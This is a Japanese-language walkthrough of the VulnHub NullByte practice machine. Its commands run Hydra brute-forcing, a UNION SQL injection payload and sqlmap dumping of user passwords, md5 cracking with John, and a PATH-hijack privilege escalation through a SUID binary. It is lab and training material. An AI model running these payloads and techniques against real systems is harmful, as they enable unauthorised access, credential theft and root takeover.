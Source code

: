 ## NullByte  760~
### ポートスキャンまでは同じ
- 80,111,777,4474

### Webサイトを見る
- `ctrl + u`でHTMLソースコードが見れるので、チェックする。ここには画像であるmain.gifぐらいしかないが、、

### dirb
- gobusterみたいに隠しサイトを見つけてくるもの。ただ、Gobusterとは異なり、ディレクトリを深く再帰していく
- `dirb http://$IP /usr/share/dirb/wordlists/small.txt`
  - デフォルトのwordlists使うと終わらない
  - wordlistsには他にbig.txt,common.txt,samll.txtがあるが、単語数はどれぐらいか？
- phpMyAdmin,javascript,uploadsディレクトリが見つかる、今はどうしようもないので後で使う


### 怪しい画像ファイルを調査する
- 画像サイトでソースを見る ショートキーの`ctrl + u`それでmain.gifであることがわかる
- `wget http://$IP:80/main.gif -P main.gif`
- ファイルを開ける
  - `eog main.gif`
- ファイルを調べる、どちらでもいいがexiftoolの方が有能
  - stringコマンドはファイルの中に文字列があるのを抜き出してくる`strings main.gif`
  - `exiftool main.gif` exiftoolコマンドは画像などのメタデータを調べるコマンド
- 謎のコメントが得られる`kzMb5nVYJw`こういう、画像のなどのファイルに他のデータなどファイルを隠すことをステガノグラフィと呼ぶ
- `steghide extract -sf main2.gif`
  - passwordを聞かれてもわからないので、多分ない 
### Webサイト 
- `http://192.168.56.?/kzMb5nVYJw`サイトを見る

### Hydraで攻略
- HTMLソース(ctrl + u)のコメントに使うツールのヒントが書かれている
- WebサイトのHTMLソースからindex.phpのkeyにパスワードが送信されていることがわかる
- `hydra -l test -P ~/vulnhub/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt $IP 
http-post-form "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"` 
  - ここでは１箇所しか入力するところがないので、ユーザ名は適当なtestという名前を入れている
  - `key=^PASS^`はhtmlのソースにあるkeyに辞書のパスワードが順に入ることになる
  - `http://`は書かない
  - `~ $IP/kzMb5nVYJw http-post-form ~`みたいな書き方はエラーになる
- パスワードがわかる `elite`
- webサイトにパスワードがあるので、入力する

### 得られたkeyで認証する
- search for usernamesページ
```html
<p>Search for usernams: </p>
<hr>
<form action="420search.php" method="get">
Enter username:<br>
<input type="text" name="usrtosearch">
</form>
```

- 空のまま`Enter`を押すと、とりあえずuser名がわかる
  - `ramses` `isis` 
- リンクを見たら最後に`php?usrtosearch=`となっている、ここの最後にいろいろ入力してみる
  - SQLインジェクションの典型的なコードを入力してみる`1' OR 'a'='a`
  - 特に何も起こらない
  - `'`
  - これも何も起こらない
  - `"`
  - これでエラーを吐き出すのでSQLInjectionができることがわかる 

### 次の攻略1または2,3のどちらかを使う
### (攻略1)SQLインジェクション攻撃でユーザ名を列挙する

```
EMP ID:1
EMP NAME:ramses
EMP POSITION:
----------------
```
- UNIO区を使うとデータを連結させることができる
- サイトに入力する
  - `"UNION select "unko","tinko","tintin";-- -`
- データが連結して出てくる 
- 次の二つのどちらでもいい
1. ブラウザのリンク欄に次のを入力する
- `http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch="union select concat(id,'_',user,'_',pass,'_',position), null, null from users;-- -`
2. サイトの入力欄に入力する
- `"union select concat(id,'_',user,'_',pass,'_',position), null, null from users;-- -`
- 注意点
  - ダブルクォーテーションが片方にしかないのに注目
  - `;-- -`の部分は`;#`でもOK
- ramsesのpassをコピーする

### (攻略2)SQLMapツールで突破する
- データベースの中身を確認する
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" --dbs`
- sethのデータベースの中身を見る
- `sqlmap -u "http://192.168.56.108/kzMb5nVYJw/420search.php?usrtosearch=" -D seth -T users -C id,position,user,pass --dump`
- いろいろ聞かれるが、全部`y`を入力して押す
- ramsesのpassをコピーする

### (攻略3)BurpSuiteで突破する
- いつも通りにブラウザを開けて、適当に文字を入れてintercept onにして止める
- GETメソッドをRepeaterで書き換えるため、右クリックでsend to repeaterにデータを送る
- SQLインジェクションを書いて、ウェブサイトでURLencodeしてGETメソッドに貼り付けてsendする
- Responseが返ってきたらRenderにすると見やすい

### Base64でデコードする
- 単語の数を数えてみる4の倍数ならbase64になる
  - `echo -n ペースト | wc` 
- ペーストした最後に`=`イコールをつけてパッディングして復号する
- `echo -n "ペースト=" | base64 -d`
  - うまく変換できていれば、hash.txtに保存する
- `echo -n "ペースト=" | base64 -d > hash.txt`  

### パスワードの解析
- 文字の数が32文字であることから、md5っぽい
- `hashid hash.txt`や`hash-identifier ハッシュ値`でもmd5っぽい
- `sudo john --format=raw-md5 hash.txt`
  - hash.txtに書き込んだのはmd5という形式の暗号化である
  - 過去に解読してる場合`sudo john --show --format=raw-md5 hash.txt`

### ssh
- `ssh ramses@192.168.56.108 -p 777`
  - ポート番号に注意

### システム内を探索する
- フォルダを探索する
- `sudo -l`
  - パスワードがわからない 
- SUIDを探す
  - `find / -perm -u=s -type f 2> /dev/null` 順番も合ってないとエラーになるので注意
  - 怪しいコマンドがある 
- `cat .bash_hitory`
  - 謎のコマンドを実行していることがあるので、大きなヒントになる 

### 怪しいプログラムを調べる
- SUIDで探した怪しいprocwatchファイルを調べる
  - `cd /var/www/backup`
  - `cat procwatch` 文字化けしている、バイナリファイルかもしれない
  - `file procwatch` 実行ファイルだとわかる
- 謎のコマンドが実行されている
  - `./procwatch`

### PATHハイジャック
- これはどこかで見たことのあるコマンド?procwatchは裏でpsコマンドを呼んでいるので、そのpsコマンドを書き換えてbashが起動するようにする。
- `echo $PATH`
  - PATHは左から順に読み込まれるので、本物のpsコマンドより先に偽のbashを書いたpsコマンドを/tmpディレクトリをはじめに置いて、先に読み込ませる
- psコマンドをどこからでも呼べるためにパスを通す
  - `export PATH=/tmp:$PATH`
- `echo $PATH`
- pcコマンドのファイルにシェル(sh)を実行できるように書き込む
  - `echo "/bin/sh" > /tmp/ps`
- `chmod 777 /tmp/ps`
- ./procwatchを実行すると、裏でpsファイルが呼ばれて、そこにはshが書かれているので、shが実際は実行される。procwatchはSUID
  - `./procwatch` 
### 権限の昇格
- `cd /root`
- `cat proof.txt`

